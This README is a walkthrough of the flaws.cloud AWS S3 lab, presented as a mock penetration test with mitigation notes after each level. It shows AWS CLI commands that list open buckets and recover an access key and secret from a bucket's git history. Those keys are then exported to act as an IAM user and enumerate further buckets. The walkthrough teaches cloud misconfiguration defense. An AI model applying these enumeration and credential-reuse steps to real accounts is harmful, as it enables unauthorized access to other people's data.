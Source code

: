 # AWS S3 Security Challenges

## Abstract
*Amazon Simple Storage Service* (Amazon `S3`) is a highly scalable and versatile cloud storage service offered by Amazon Web Services (`AWS`).  
It allows organizations to store and retrieve vast amounts of data, making it an integral component of modern cloud computing infrastructures.  
*Security* is of paramount importance when it comes to S3, as it stores critical data for businesses and individuals alike.  
S3 security measures are crucial to protect sensitive information from unauthorized access, data breaches, and accidental exposure.  
AWS offers a range of security features, such as access control lists, bucket policies, and encryption, to ensure that data stored  
in S3 remains confidential, integrity is maintained, and accessibility is well-controlled.  
Establishing robust S3 security practices is essential for safeguarding valuable digital assets in the cloud.  

<br/>

In this repository, we will explore a series of challenges related to S3 by leveraging [flaws.cloud](http://flaws.cloud).  

## Prerequisites
- [aws cli](https://aws.amazon.com/cli/)
- [aws account](https://aws.amazon.com/free/?trk=94cafeff-9d62-4c32-8799-45290b4f160b&sc_channel=ps&ef_id=EAIaIQobChMIrtnukMWxggMVVIVoCR1cRgT0EAAYASAAEgJfl_D_BwE:G:s&s_kwcid=AL!4422!3!566381912849!p!!g!!account%20aws!15451025651!135687769812&all-free-tier.sort-by=item.additionalFields.SortRank&all-free-tier.sort-order=asc&awsf.Free%20Tier%20Types=*all&awsf.Free%20Tier%20Categories=*all) (you can leverage a free trial account)  


## Challenges  
> **Note**
> To add depth and realism to the scenario, we will structure our challenge by assuming that flaws.cloud is a web service  
> for which a customer has requested a black box **Vulnerability Assessment & Penetration Testing (VAPT)**.  
> In this approach, we will have no prior information beyond the target domain, making the engagement more challenging and realistic.  

<br/>

> **Note**
> All challenges are dependent on one another so proceed in order.  

<details>
<summary>CHALLENGE 1</summary>

L'ets begin.  
As we are aware, the only information available to us is that the service is exposed at the URL http://flaws.cloud:  

<img src="images/flaws-website.png" alt="flaws.cloud" width="3000" height="290">  


The initial step we can take is to perform a DNS lookup to gather additional information:  
```console
nslookup flaws.cloud

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
Name:	flaws.cloud
Address: 52.218.251.58
Name:	flaws.cloud
Address: 52.92.164.35
Name:	flaws.cloud
Address: 52.218.183.19
Name:	flaws.cloud
Address: 52.92.229.67
Name:	flaws.cloud
Address: 52.218.179.83
Name:	flaws.cloud
Address: 52.92.148.203
Name:	flaws.cloud
Address: 52.92.250.3
Name:	flaws.cloud
Address: 52.92.177.187
```  
The reason why the `nslookup` command returns multiple IP addresses for a domain is because many websites  
and services are hosted on multiple servers for redundancy and load balancing.  
This means that the same domain name (in this case, "flaws.cloud") can resolve to multiple IP addresses.  

The purpose of this approach is to ensure high availability and better distribution of traffic.  
Let's take a random IP address from the list and try to execute a DNS lookup on that:  
```console
nslookup 52.92.148.203

Server:		192.168.1.1
Address:	192.168.1.1#53

Non-authoritative answer:
203.148.92.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```  

This is an interesting information.  
`name = s3-website-us-west-2.amazonaws.com`: This line provides the result of the reverse DNS lookup.  
It reveals that the IP address `52.92.148.203` is associated with the domain name `s3-website-us-west-2.amazonaws.com`.  
This means that if you were to access the URL associated with this IP address, it would likely lead you to an Amazon Web Services (AWS) `S3`  
website hosted in the US West (Oregon) region.  
The same DNS lookup result applies to every other IP addresses taken from the above output.  


> **Note**
> All S3 buckets, when configured for web hosting, are given an AWS domain you can use to browse to it without setting up your own DNS.  
> In this case, flaws.cloud can also be visited by going to http://flaws.cloud.s3-website-us-west-2.amazonaws.com.  
> That is the reason why S3 bucket names must be unique world-wide and they must follow DNS naming conventions.  

Let's do a recap of what we know so far:  
We know that we have a bucket named `flaws.cloud` in `us-west-2`  
<br/>

Given that, we can attempt to browse the bucket by using the aws cli by running:  
```console
aws s3 ls s3://flaws.cloud

2017-03-14 04:00:38       2575 hint1.html
2017-03-03 05:05:17       1707 hint2.html
2017-03-03 05:05:11       1101 hint3.html
2020-05-22 20:16:45       3162 index.html
2018-07-10 18:47:16      15979 logo.png
2017-02-27 02:59:28         46 robots.txt
2017-02-27 02:59:30       1051 secret-dd02c7c.html
```  
Very good, we are able to list this bucket contents!  
Feel free to take a look at all the files in the bucket...  
the most interesting one seems to be `secret-dd02c7c.html`, let's inspect this:  
```html
aws s3 cp s3://flaws.cloud/secret-dd02c7c.html -

<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 2 is at <a href="http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud">http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud</a>%
```  

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that on AWS you can set up S3 buckets with all sorts of permissions and functionality including using them to host static files.  
A number of people accidentally open them up with permissions that are too loose.  
By default, S3 buckets are private and secure when they are created.  
To allow it to be accessed as a web page, you have to turn on `Static Website Hosting` and changed the aws  
bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page.  
But then you can introduce the flaw if you change the permissions to add `Everyone` to have `List` permissions.

> **Warning**
> "Everyone" means everyone on the Internet!



</details>

<br/>

<details>
<summary>CHALLENGE 2</summary>

Now we can procede with the second challenge.  

> **Note**
> This challenge is similar to the first one but you will need an aws accout.  


We know that the link to the new bucket is http://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud

2017-02-27 03:02:15      80751 everyone.png
2017-03-03 04:47:17       1433 hint1.html
2017-02-27 03:04:39       1035 hint2.html
2017-02-27 03:02:14       2786 index.html
2017-02-27 03:02:14         26 robots.txt
2017-02-27 03:02:15       1051 secret-e4443fc.html
```  

Once again we notice that there is a *secret* html file, let's cat is content:  

aws s3 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html -  
```html
<html>
    <head>
        <title>flAWS</title>
        <META NAME="ROBOTS" CONTENT="NOINDEX, NOFOLLOW">
        <style>
            body { font-family: Andale Mono, monospace; }
            :not(center) > pre { background-color: #202020; padding: 4px; border-radius: 5px; border-color:#00d000;
            border-width: 1px; border-style: solid;}
        </style>
    </head>
<body
  text="#00d000"
  bgcolor="#000000"
  style="max-width:800px; margin-left:auto ;margin-right:auto"
  vlink="#00ff00" link="#00ff00">

<center>
<pre >
 _____  _       ____  __    __  _____
|     || |     /    ||  |__|  |/ ___/
|   __|| |    |  o  ||  |  |  (   \_
|  |_  | |___ |     ||  |  |  |\__  |
|   _] |     ||  _  ||  `  '  |/  \ |
|  |   |     ||  |  | \      / \    |
|__|   |_____||__|__|  \_/\_/   \___|
</pre>

<h1>Congrats! You found the secret file!</h1>
</center>


Level 3 is at <a href="http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud">http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud</a>%
```   

The content of the file displays the link to the next challenge. Well done!  

**Security Mitigations**:  
We need to explain to our customer that similar to opening permissions to `Everyone` in the previous bucket/challenge, people accidentally open permissions to `Any Authenticated AWS User`.  

> **Warning**
> They might mistakenly think this will only be users of their account, when in fact it means anyone that has an AWS account!



</details>

<br/>

<details>
<summary>CHALLENGE 3</summary>

Now we can procede with the third challenge.  
We know that the link to the new bucket is http://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud.  
Once you have your aws cli configured with keys from your aws account, let's try to list all the files in the bucket:  
```console
aws s3 ls s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud  

                           PRE .git/
2017-02-27 01:14:33     123637 authenticated_users.png
2017-02-27 01:14:34       1552 hint1.html
2017-02-27 01:14:34       1426 hint2.html
2017-02-27 01:14:35       1247 hint3.html
2017-02-27 01:14:33       1035 hint4.html
2020-05-22 20:21:10       1861 index.html
2017-02-27 01:14:33         26 robots.txt
```  
This time we notice something different: there is a `.git` folder!  
A `.git` folder within a directory typically indicates that the directory is a Git repository.  
`Git` is a distributed version control system commonly used for tracking changes in source code and managing collaborative software development projects.  
The `.git` folder contains all the information and data necessary for Git to manage version control for the files and directories within that repository.  
It includes information about commits, branches, history, configuration settings, and more.  
There are probably interesting things in this folder...let's download the full bucket content with the following command:  
```console
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --region us-west-2

download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/description to .git/description
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/config to .git/config
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/COMMIT_EDITMSG to .git/COMMIT_EDITMSG
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/applypatch-msg.sample to .git/hooks/applypatch-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-applypatch.sample to .git/hooks/pre-applypatch.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/post-update.sample to .git/hooks/post-update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/commit-msg.sample to .git/hooks/commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-commit.sample to .git/hooks/pre-commit.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/pre-rebase.sample to .git/hooks/pre-rebase.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/prepare-commit-msg.sample to .git/hooks/prepare-commit-msg.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/hooks/update.sample to .git/hooks/update.sample
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df to .git/objects/2f/c08f72c2135bb3af7af5803abb77b3e240b6df
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/info/exclude to .git/info/exclude
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25 to .git/objects/0e/aa50ae75709eb4d25f07195dc74c7f3dca3e25
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b to .git/objects/61/a5ff2913c522d4cf4397f2500201ce5a8e097b
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 to .git/objects/b6/4c8dcfa8a39af06521cf4cb7cdce5f0ca9e526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/refs/heads/master to .git/logs/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c to .git/objects/53/23d77d2d914c89b220be9291439e3da9dada3c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2 to .git/objects/db/932236a95ebf8c8a7226432cf1880e4b4017f2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c to .git/objects/92/d5a82ef553aae51d7a2f86ea0a5b1617fafa0c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61 to .git/objects/f5/2ec03b227ea6094b04e43f475fb0126edb5a61
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/c2/aab7e03933a858d1765090928dca4013fe2526 to .git/objects/c2/aab7e03933a858d1765090928dca4013fe2526
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/76/e4934c9de40e36f09b4e5538236551529f723c to .git/objects/76/e4934c9de40e36f09b4e5538236551529f723c
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/refs/heads/master to .git/refs/heads/master
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2 to .git/objects/e3/ae6dd991f0352cc307f82389d354c65f1874a2
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/objects/f2/a144957997f15729d4491f251c3615d508b16a to .git/objects/f2/a144957997f15729d4491f251c3615d508b16a
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```  
Now we are inside the git folder and we can inspect git logs:  
```console
git log

commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```  
The log shows 2 commit and one have a suspicious message associated with it: `Oops, accidentally added something I shouldn't have`.  
Let's checkout the commit before that and take a look around at that point in the git history:  
```console
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61 && ls

M	index.html
Note: switching to 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by switching back to a branch.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -c with the switch command. Example:

  git switch -c <new-branch-name>

Or undo this operation with:

  git switch -

Turn off this advice by setting config variable advice.detachedHead to false

HEAD is now at f52ec03 first commit

access_keys.txt         authenticated_users.png hint1.html              hint2.html              hint3.html              hint4.html              index.html              robots.txt
```  

Interesting...there is an `access_keys.txt` file in the repository!  
Let's inspect that:  
```console
cat access_keys.txt

access_key AKIAJ366LIPB4IJKT7SA
secret_access_key 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
```  
It's a good day to be a pentester, we found a set of aws [keys](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_credentials_access-keys.html)!  

let's use them to see if we can do something!  
```console
export AWS_ACCESS_KEY_ID=AKIAJ366LIPB4IJKT7SA
export AWS_SECRET_ACCESS_KEY=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
aws sts get-caller-identity

{
    "UserId": "AIDAJQ3H5DC3LEG2BKSLC",
    "Account": "975426262029",
    "Arn": "arn:aws:iam::975426262029:user/backup"
}

```  

The output of the above command shows that we are now impersonating the `arn:aws:iam::975426262029:user/backup` [IAM](https://aws.amazon.com/iam/?trk=e7f9b09d-7bd6-4855-9dba-72c6bc2af630&sc_channel=ps&ef_id=EAIaIQobChMI6M_L-dKxggMVblBBAh1FEw9aEAAYASAAEgL2Z_D_BwE:G:s&s_kwcid=AL!4422!3!651510173475!e!!g!!amazon%20iam!19828210056!146491523705) identity.  
This is a user from the customer's aws account!  
Let's check the user attached policies:  
```console

aws iam list-attached-user-policies --user-name backup

An error occurred (AccessDenied) when calling the ListAttachedUserPolicies operation: User: arn:aws:iam::975426262029:user/backup is not authorized to perform: iam:ListAttachedUserPolicies on resource: user backup because no identity-based policy allows the iam:ListAttachedUserPolicies action
```  
We are not lucky this time but maybe with can list more bucket with the current identity:  
```console
aws s3 ls

2020-06-25 19:43:56 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2020-06-27 01:06:07 config-bucket-975426262029
2020-06-27 12:46:15 flaws-logs
2020-06-27 12:46:15 flaws.cloud
2020-06-27 17:27:14 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2020-06-27 17:27:14 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2020-06-27 17:27:14 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2020-06-27 17:27:15 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2020-06-27 17:27:15 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2020-06-28 04:29:47 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```  
Yes! We can list buckets that we couldn't before!  
Now we know where `level4` is located.  

**Security Mitigations**:  
We need to explain to our customer that People often leak AWS keys and then try to cover up their mistakes without revoking the keys.  
You should always revoke any AWS keys (or any secrets) that could have been leaked or were misplaced.  
Roll your secrets early and often and [use roles instead of keys whenever possible](https://docs.aws.amazon.com/IAM/latest/UserGuide/best-practices.html).  

> **Warning**
> If sensitive information or secrets are accidentally leaked and committed to a Git repository, simply removing them in a new commit is not sufficient.  
> These secrets can still exist in the repository's history, and they may be accessible to anyone with access to that repository.  
> If you accidentally committed a secret, consider rewriting your Git history to remove any traces of it.  
> Tools like git-filter-branch and git-rebase can help, but use them with caution as they can be complex and have implications on collaboration.  



</details>

<br/>

<details>
<summary>CHALLENGE 4</summary>

Now we can procede with challenge 4.  
We know that the link to the new bucket is http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud.  

> **Note**
> For the next level, you need to get access to the web page running on an EC2 at 4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud  
> It'll be useful to know that a snapshot was made of that EC2 shortly after nginx was setup on it.  
> Also you need the aws keys retrieved in the previous challenge.  

If we open a browser to `4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud` we are presented with a login page:  
<img src="images/challenge4-login-page.png" alt="flaws.cloud" width="3000" height="290">  

We need to retrieve the right credentials in order to sign-in.  
The challenge tip informs us that we are dealing with a backup of an [EC2](https://aws.amazon.com/ec2/) instance, and if we recall from the previous challenge, the username was indeed `backup`.  
Let's see if we can list the backups/snapshots of the EC2 instance using the AWS CLI:  
```console
 aws  ec2 describe-snapshots --owner-ids 975426262029

{
    "Snapshots": []
}
```  

Mmmm it seems that, as of 07/11/2023, there are no snapshots.  
Maybe we can describe instances?  
```console
aws ec2 describe-instances

{
    "Reservations": []
}
```  
No luck either 😞  
Maybe the maker of flaws.cloud deleted them...no much else we can do here.  
Our customer can sleep peaceful dreams... for now.  




</details>

<br/>


